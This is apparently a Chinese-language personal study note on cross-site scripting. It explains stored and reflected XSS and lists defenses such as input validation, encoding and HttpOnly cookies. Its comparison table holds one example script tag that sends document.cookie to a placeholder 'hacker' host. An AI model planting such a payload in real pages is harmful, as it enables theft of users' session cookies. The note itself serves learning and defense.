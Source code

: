 # XSS

## 原理
**XSS**(`跨站脚本攻击`)分为两类

### 存储型
攻击者通过输入框植入恶意代码到数据库中，例如留言板、评论、博客日志和各类表单进行植入，然后回显到前端页面进行攻击，例如访问某个小站，实现类似DDos，或者将其他用户的Cookie提交到黑客的服务器

### 反射型
反射型：将脚本代码加入URL地址的请求参数里，请求参数进入程序后在页面直接输出，用户点击类似的恶意链接就可能受到攻击。

|类型|持久化|原理|例子|
|:--:|:-----:|:--:|:-:|
|存储型XSS|持久化在数据库中|攻击者通过输入框植入恶意代码到数据库中，例如留言板、评论、博客日志和各类表单进行植入，然后通过页面回显执行恶意代码|人人网又一大波蠕虫:https://www.secpulse.com/archives/15681.html|
|反射型XSS|不持久化|欺骗用户自己去点击链接才能触发XSS代码，以获取Cookie信息|`<SCRIPT>var+img=new+Image();img.src="http://hacker /"%20+%20document.cookie;</SCRIPT>`|



## 防御

1. 输入类型校验，例如手机号只允许数字，email格式用正则校验
2. 对于用户输入的特殊字符，我们必须要做编码，可以使用`OWASP AntiSamp XSS`规则过滤引擎对用户输入进行编码过滤
3. 不要引入任何不可信的第三方`JavaScript`到页面里，一旦引入了，这些脚本就能够操纵你的HTML页面，窃取敏感信息或者发起钓鱼攻击等等
4. 使用`HttpOnly`避免`cookie`被恶意js获取


## 补充
* 在我尝试通过Flask来实现模拟攻击时失败了，在Flask中return template script标签的内容是作为字符串的显示在页面的，而我直接return 字符串攻击时成功的，那这么说Flask template是后端渲染是么？ 看样子好像是的- -!(未验证)
* Post是否会比Get安全在XSS安全威胁中？(未验证)

